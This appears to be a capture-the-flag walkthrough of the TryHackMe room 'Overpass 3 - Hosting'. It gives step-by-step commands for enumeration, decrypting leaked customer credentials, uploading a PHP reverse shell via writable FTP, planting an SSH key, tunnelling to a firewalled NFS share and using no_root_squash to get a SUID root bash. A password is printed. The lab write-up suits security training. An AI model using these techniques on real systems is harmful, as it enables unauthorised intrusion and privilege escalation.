overpass-3 hosting
THM: Overpass 3 - Hosting
Enumeration
Rustscan & Nmap
ports=$(rustscan -g -a 10.10.201.214 --ulimit 5000 | cut -d "[" -f 2 | cut -d "]" -f 1);echo $ports
nmap -A -p$ports 10.10.201.214

Dirsearch
dirsearch -u http://10.10.201.214

Website Enumeration

I opened the found /backups directory and found a zip file. I downloaded it locally and analyze its contents.

I found a Customer Details Excel file encrypted with gpg. There is also a key file.
Lets use this key file to open the gpg file.
KEY File: /home/cybex/lab/thm/CTFs/overpass-3/priv.key
GPG File: /home/cybex/lab/thm/CTFs/overpass-3/CustomerDetails.xlsx.gpg
gpg --import priv.key
gpg CustomerDetails.xlsx.gpg

We can see CustomerDetails.xlsx is extracted in the same folder. (As --decrypt option wasn't used)
We view the excel file.

We found quite a few credentials.
Lets try to use these in FTP
FTP

I was able to login with the following credentials.
FTP Credentials:
Username: paradox
Password: ShibesAreGreat123
The backups directory is the same which was accessible through the web.
Note: I tried the other 2 credentials, they are not working for the FTP server. Maybe it will work for some other service. (May be SSH)
SSH
I will try to use the found credentials for SSH.

As we can see none of the credentials work for SSH Login with password. But we see an important thing.
The Paradox account doen't allow password authentication. But it allows publickey.
We will check if later if we find any system access.
Foothold
We know that home directory of FTP is writable and it is accessible by the web server. We can upload a php-reverse-shell and open it the page in the web browser to get initial foothold of the machine.
cp /usr/share/webshells/php/php-reverse-shell.php .
Make the necessary changes. (PORT & IP)
FTP the file in the backups directory & start netcat listener.

Now, lets open the page in the browser.
Note: As we are putting the php file in the home directory. We will not see it when the webpage is loaded.

The way the php file can be triggered is by entering the following in the URL:
http://10.10.108.191/php-reverse-shell.php
Or
We create a directory(say rshell) in the base folder of FTP & put our php file in it and then access the folder from the website as shown below

And open in the browser as follows.

Any way is used, we get a connection once the file is triggered.

Web Flag
THM Hint: Flag belongs to apache
I used /etc/passwd to list all users and went to apache user's home. I found the web.flag

Lateral Movement
Remember we had a SSH password login denied. Lets try to use the paradox user's credentials to switch the user/

Indeed we are able to login. Now, lets create a authorized_key file with my personal public id
I added my id_rsa.pub to the authorized_keys of the paradox user

Now we can login with the system through SSH

Linpeas Report Snap
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
Running linpeas.sh on the target will reveal an interesting NFS share (/home/james), with the no_root_squash option set. We’ll come back to this later for the privilege escalation, but at this stage, we only care about the NFS share.
Lets check for nfs
cat /etc/exports
rpcinfo -p | grep nfs

We find that NFS is running on port 2049. Lets check with nmap

As we can see, the nfs service is filtered which means its blocked by firewall for remote access.
Solution
We can create a SSH Tunnel to connect my machine localhost to the NFS port in the remote machine.
ssh -L 2049:localhost:2049 paradox@10.10.108.191

Lets check Nmap in out Localhost at 2049 port.

The tunnel was successful.
It showing now as open in our local system.
We can connect to the nfs share using the following.
mount -t nfs 127.0.0.1: nfs_share

Important Note:
We created SSH tunnel to default nfs port: 2049
ssh -L 2049:localhost:2049 paradox@10.10.108.191
mount -t nfs 127.0.0.1: nfs_share
That is reason mount command connected automatically.
Note: If we tunnel to a custom port say 9999
ssh -L 9999:localhost:2049 paradox@10.10.108.191
mount -t nfs -o port=9999 127.0.0.1: nfs_share
Then we have to use -o option in mount with key port=9999 for connection.
Privilege Escalation
Linpeas Report Snap
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
As no_root_squash is enabled. It can be used for privilege escalation.
There are 2 approaches here: (Check CybeXRay Guides → Privilege Escalation → Linux ----→ @Content :: Using NFS)
We will use Method-2: which tampers a local bash executible.
Target Machine:
Copy the local bash executible from the target machine to the NFS share.
Eg.

Attacker Machine:
Connect the NFS share as root. Then check the bash executible permission.
Next change it to be owned by root and have SUID bit set.
chown root:root bash
chmod u+s bash
Eg.

Target Machine:
Run the bash program with -p option to preserver the permissiom
./bash -p

Note: It will give euid root access.
We can collect the flags and complete the THM room.
Extra
Method-1 will give full root access. (It uses the StrongRoot program instead of the local bash)
(Check CybeXRay Guides → Privilege Escalation → Linux ----→ @Content :: Using NFS)
Note: If Full Root Access is required check: (CybeXRay Guides → Wiki Miscellaneous → StrongRoot)
Thanks!!